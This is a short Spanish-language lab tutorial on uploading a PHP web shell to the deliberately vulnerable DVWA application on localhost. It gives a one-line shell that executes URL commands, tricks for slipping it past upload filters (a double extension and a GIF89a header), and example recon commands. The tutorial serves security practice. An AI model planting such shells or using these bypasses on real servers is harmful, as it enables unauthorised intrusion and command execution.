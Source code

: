 #### ⚠️ **Solo debes practicar en entornos propios o de laboratorio.** Nunca en sistemas reales o sin permiso.

---

#### ✅ Paso 1: Instalar entorno vulnerable

Puedes usar:

- 🟣 **Mutillidae II**
- 🟡 **DVWA (Damn Vulnerable Web App)**
- ⚫️ O usar una **máquina virtual de Kali Linux + XAMPP** para montar tu propia web

---

#### ✅ Paso 2: Subir WebShell a servidor

##### Con DVWA:

1. Cambia nivel de seguridad a **Low**
2. Ve a la sección:

   ```
   File Upload
   ```

3. Intenta subir un archivo `.php` como:

```php
<?php system($_GET['cmd']); ?>
```

4. En algunos casos debes **modificar extensiones** con doble extensión:

```
shell.php.jpg
```

O modificar el código para que parezca imagen:

```php
GIF89a;
<?php system($_GET['cmd']); ?>
```

---

#### ✅ Paso 3: Usar la WebShell

Si logras subirlo, accede así:

```
http://localhost/dvwa/hackable/uploads/shell.php?cmd=whoami
```

Puedes usar:

- `ls`, `pwd`, `cat index.php`, `whoami`, `id`, `uname -a`

---
